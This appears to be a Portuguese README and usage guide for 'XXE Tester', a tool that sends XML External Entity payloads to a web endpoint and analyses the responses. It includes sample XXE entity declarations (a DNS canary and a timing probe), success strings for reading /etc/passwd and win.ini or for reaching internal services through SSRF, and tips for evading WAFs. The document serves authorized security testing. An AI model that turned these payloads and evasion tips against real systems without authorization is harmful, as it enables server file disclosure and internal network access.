

# XXE Tester

Ferramenta automatizada para teste de payloads XXE contra aplicações web.

## Sobre

O XXE Tester é uma ferramenta que automatiza o teste de vulnerabilidades XXE (XML External Entity) em aplicações web. A ferramenta recebe uma URL alvo e uma pasta contendo payloads XXE, envia cada payload para o alvo e analisa as respostas para identificar possíveis vulnerabilidades.

## Recursos

- Detecção automática da codificação dos payloads (UTF-8, UTF-16LE, UTF-16BE, etc.)
- Suporte a múltiplos métodos HTTP (POST, GET, PUT, etc.)
- Execução em paralelo para testes mais rápidos
- Análise de respostas para identificação de sucesso
- Relatório detalhado dos resultados
- Suporte a autenticação via cookies e cabeçalhos personalizados
- Exportação dos resultados para arquivo JSON

## Requisitos

- Python 3.6+
- Bibliotecas: requests, rich (instaladas automaticamente se necessário)

## Instalação

```bash
# Clone o repositório ou baixe o arquivo xxe_tester.py
git clone https://github.com/seu-usuario/xxe-tester.git
cd xxe-tester

# Torne o script executável (sistemas Unix)
chmod +x xxe_tester.py
```

## Uso Básico

```bash
python xxe_tester.py https://alvo.com/endpoint ./payloads
```

Este comando irá testar todos os payloads XML na pasta `./payloads` contra a URL `https://alvo.com/endpoint` usando o método POST.

## Opções Disponíveis

```
usage: xxe_tester.py [-h] [-m {GET,POST,PUT,DELETE,HEAD,OPTIONS,PATCH}] [-t THREADS] [-d DELAY] [-to TIMEOUT]
                     [-ua USER_AGENT] [-c COOKIE] [-H HEADER] [-p PARAM] [-ds DETECT_SUCCESS] [-v] [-o OUTPUT]
                     target_url payloads_dir

XXE Tester - Ferramenta para testes automatizados de payloads XXE

positional arguments:
  target_url            URL do alvo (ex: https://exemplo.com/endpoint)
  payloads_dir          Diretório contendo os arquivos XML de payload

options:
  -h, --help            show this help message and exit
  -m {GET,POST,PUT,DELETE,HEAD,OPTIONS,PATCH}, --method {GET,POST,PUT,DELETE,HEAD,OPTIONS,PATCH}
                        Método HTTP a ser usado (default: POST)
  -t THREADS, --threads THREADS
                        Número de threads para execução em paralelo (default: 1)
  -d DELAY, --delay DELAY
                        Delay em segundos entre requests (default: 0.0)
  -to TIMEOUT, --timeout TIMEOUT
                        Timeout em segundos para cada request (default: 10)
  -ua USER_AGENT, --user-agent USER_AGENT
                        User-Agent personalizado (default: None)
  -c COOKIE, --cookie COOKIE
                        Cookies no formato 'nome=valor' (pode ser usado múltiplas vezes) (default: None)
  -H HEADER, --header HEADER
                        Cabeçalhos adicionais no formato 'Nome: Valor' (pode ser usado múltiplas vezes) (default: None)
  -p PARAM, --param PARAM
                        Nome do parâmetro para enviar o payload (se não especificado, envia como corpo raw) (default: None)
  -ds DETECT_SUCCESS, --detect-success DETECT_SUCCESS
                        String que indica sucesso na resposta (ex: 'root:' para leitura de /etc/passwd) (default: None)
  -v, --verbose         Modo verboso - mostra mais detalhes sobre as respostas (default: False)
  -o OUTPUT, --output OUTPUT
                        Arquivo para salvar os resultados em formato JSON (default: None)
```

## Exemplos de Uso

### Teste básico com método POST

```bash
python xxe_tester.py https://alvo.com/api/xml ./payloads
```

### Usando método GET e especificando um parâmetro

```bash
python xxe_tester.py -m GET -p xml_data https://alvo.com/api/process ./payloads
```

### Com autenticação e detecção de sucesso específica

```bash
python xxe_tester.py https://alvo.com/api/xml ./payloads \
  -c "sessao=ABC123" \
  -H "Authorization: Bearer TOKEN" \
  -ds "root:" \
  -o resultados.json
```

### Teste mais rápido com múltiplas threads

```bash
python xxe_tester.py https://alvo.com/api/xml ./payloads -t 5 -v
```

## Fluxo de Trabalho Recomendado

1. Primeiro, gere payloads com diferentes codificações usando o `xxe_payload_generator.py`:
   ```bash
   python xxe_payload_generator.py --output payloads
   ```

2. Em seguida, teste todos os payloads contra o alvo:
   ```bash
   python xxe_tester.py https://alvo.com/endpoint ./payloads -v -o resultados.json
   ```

3. Analise os resultados para identificar payloads bem-sucedidos

4. Refine seus testes utilizando apenas os payloads que tiveram sucesso:
   ```bash
   # Copie apenas os payloads bem-sucedidos para uma nova pasta
   mkdir payloads_sucesso
   cp payloads/payload_bem_sucedido.xml payloads_sucesso/
   
   # Execute novos testes com parâmetros diferentes
   python xxe_tester.py https://alvo.com/outro_endpoint ./payloads_sucesso -ds "dados_confidenciais"
   ```

5. Se necessário, personalize os payloads bem-sucedidos para extrair informações específicas

## Detecção Eficaz de Vulnerabilidades XXE

### Padrões para detecção de sucesso

Para identificar com precisão quando um payload XXE foi bem-sucedido, use o parâmetro `-ds` (detect-success) com strings que indicam que a vulnerabilidade foi explorada:

- Para leitura de `/etc/passwd`: `-ds "root:"`
- Para leitura de `win.ini`: `-ds "[fonts]"` 
- Para SSRF: `-ds "Internal Server"` ou outro conteúdo exclusivo do serviço interno
- Para detecção genérica: busque por padrões incomuns nas respostas

### Técnicas avançadas

- **Canário DNS**: Use payloads que forçam consultas DNS para confirmar a execução:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://seu-dominio-canario.burpcollaborator.net"> ]>
  ```

- **Tempo de resposta**: Para sistemas que não retornam conteúdo, use timeouts:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:9999/delay10seconds"> ]>
  ```

## Integração com Outras Ferramentas

### Com Burp Suite

1. Configure o Burp Suite como proxy
2. Execute o XXE Tester com o proxy configurado:
   ```bash
   export HTTPS_PROXY="http://127.0.0.1:8080"
   python xxe_tester.py https://alvo.com/endpoint ./payloads
   ```

### Com Ferramentas de CI/CD

Adicione o XXE Tester ao seu pipeline de segurança:

```yaml
# Exemplo de configuração para GitLab CI
security_scan:
  stage: test
  script:
    - python xxe_tester.py $TARGET_URL ./payloads -o resultados.json
  artifacts:
    paths:
      - resultados.json
```

## Solução de Problemas

### Todos os testes falham

- Verifique se o endpoint realmente processa XML
- Confirme que está usando o método HTTP correto
- Verifique se há WAF ou filtros no alvo
- Tente com diferentes codificações (principalmente UTF-16LE)

### Erros SSL/TLS

Use a opção `-H "Connection: close"` para evitar problemas com conexões persistentes

### Problemas de Performance

- Aumente o número de threads (`-t 10`) para testes mais rápidos
- Adicione delay (`-d 0.5`) se o servidor estiver limitando requisições
# Guia de Uso do XXE Tester

Este documento apresenta as melhores práticas e estratégias eficazes para utilizar a ferramenta XXE Tester em seus testes de segurança.

## Métodos de Detecção de Sucesso

O XXE Tester oferece duas abordagens principais para identificar quando um payload XXE foi bem-sucedido:

### 1. Detecção Específica com o Parâmetro `-ds`

O parâmetro `-ds` (detect-success) permite que você especifique uma string que, quando encontrada na resposta, indica que o payload XXE foi executado com sucesso.

#### Vantagens:
- **Maior precisão**: Você define exatamente o que considera um "sucesso"
- **Menos falsos positivos**: A ferramenta não precisará adivinhar o que constitui uma resposta bem-sucedida
- **Específico para o alvo**: Diferentes alvos podem ter diferentes indicadores de sucesso

#### Exemplos de uso:
```bash
# Para leitura de /etc/passwd
python xxe_tester.py https://alvo.com/endpoint ./payloads -ds "root:"

# Para leitura de arquivos Windows
python xxe_tester.py https://alvo.com/endpoint ./payloads -ds "[fonts]"

# Para SSRF
python xxe_tester.py https://alvo.com/endpoint ./payloads -ds "Internal Server Error"
```

### 2. Detecção Heurística (Sem o parâmetro `-ds`)

Quando você não especifica o parâmetro `-ds`, a ferramenta tenta identificar automaticamente respostas bem-sucedidas usando heurísticas:

#### Como funciona:
- Analisa o código de status HTTP (geralmente 200)
- Verifica o tamanho da resposta
- Avalia a presença de mensagens de erro comuns
- Compara as respostas entre diferentes payloads

#### Exemplos de uso:
```bash
# Execução básica com detecção heurística
python xxe_tester.py https://alvo.com/endpoint ./payloads

# Com modo verboso para análise mais detalhada
python xxe_tester.py https://alvo.com/endpoint ./payloads -v
```

## Fluxo de Trabalho Recomendado

Para obter os melhores resultados, recomendamos o seguinte fluxo de trabalho:

### 1. Exploração Inicial

Comece com uma execução exploratória para entender como o alvo responde:

```bash
python xxe_tester.py https://alvo.com/endpoint ./payloads -v -o resultados_iniciais.json
```

Nesta fase:
- Use o modo verboso (`-v`) para ver detalhes das respostas
- Salve os resultados para análise posterior (`-o`)
- Execute contra todos os payloads disponíveis

### 2. Análise dos Resultados

Examine os resultados iniciais para identificar:
- Padrões em respostas bem-sucedidas
- Textos específicos que aparecem apenas quando há sucesso
- Diferenças entre respostas normais e anômalas

### 3. Teste Focado

Com base na análise, execute testes mais precisos:

```bash
python xxe_tester.py https://alvo.com/endpoint ./payloads -ds "padrão_identificado" -o resultados_focados.json
```

### 4. Refinamento

Para alvos complexos ou protegidos por WAF:

```bash
# Teste apenas com os payloads UTF-16LE (comumente eficazes contra WAFs)
python xxe_tester.py https://alvo.com/endpoint ./payloads_utf16le -ds "padrão_identificado" -H "Content-Type: application/xml; charset=UTF-16LE" 
```

## Situações Específicas

### Aplicações com Autenticação

Para aplicações que requerem autenticação:

```bash
python xxe_tester.py https://alvo.com/endpoint ./payloads \
  -c "sessao=ABC123" \
  -H "Authorization: Bearer TOKEN" \
  -ds "conteúdo_sensível"
```

### Alvos com Proteção WAF

Para alvos com WAF:

```bash
# Adicione delay entre requisições
python xxe_tester.py https://alvo.com/endpoint ./payloads -d 1.5 -ds "padrão_identificado"

# Use um user-agent diferente
python xxe_tester.py https://alvo.com/endpoint ./payloads -ua "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" -ds "padrão_identificado"
```

### Testes em Grande Escala

Para testes em múltiplos endpoints:

```bash
# Use threads para maior velocidade
python xxe_tester.py https://alvo.com/endpoint ./payloads -t 10 -ds "padrão_identificado"
```

## Dicas para Detecção Eficaz

### Escolhendo padrões para `-ds`:

1. **Arquivos do sistema**: Procure por conteúdo único e previsível
   - Linux: `root:`, `bin:`, `nobody:`
   - Windows: `[fonts]`, `[extensions]`, `[mci extensions]`

2. **SSRF**: Procure por respostas específicas de serviços internos
   - `<title>Internal Dashboard</title>`
   - `"status": "running"`
   - `HTTP/1.1 200 OK Server: Apache-Coyote`

3. **Erros**: Procure por mensagens que indicam processamento do payload
   - `java.io.FileNotFoundException`
   - `System.IO.FileNotFoundException`
   - `failed to open stream`

### Quando Não Usar `-ds`:

- Fase inicial de reconhecimento
- Quando você não sabe exatamente o que procurar
- Testes exploratórios em novos alvos
- Quando as respostas variam significativamente

## Conclusão

Embora o XXE Tester funcione sem o parâmetro `-ds`, o uso de detecção específica é recomendado para resultados mais confiáveis. Comece com testes heurísticos para entender o comportamento do alvo e depois refine seus testes com detecção específica.

A combinação de ambas as abordagens geralmente proporciona a melhor experiência de teste, permitindo primeiro descobrir como o sistema responde e depois focar nos payloads mais promissores com critérios específicos de sucesso.


## Futuras Melhorias

- Suporte para autenticação OAuth e formulários
- Detecção automatizada de WAF
- Suporte para payloads OOB (Out-of-Band)
- Integração com scanners de vulnerabilidades
- Geração de relatórios em HTML e PDF

## Contribuições

Contribuições são bem-vindas! Se você tiver ideias, sugestões ou melhorias, fique à vontade para abrir uma issue ou enviar um pull request.
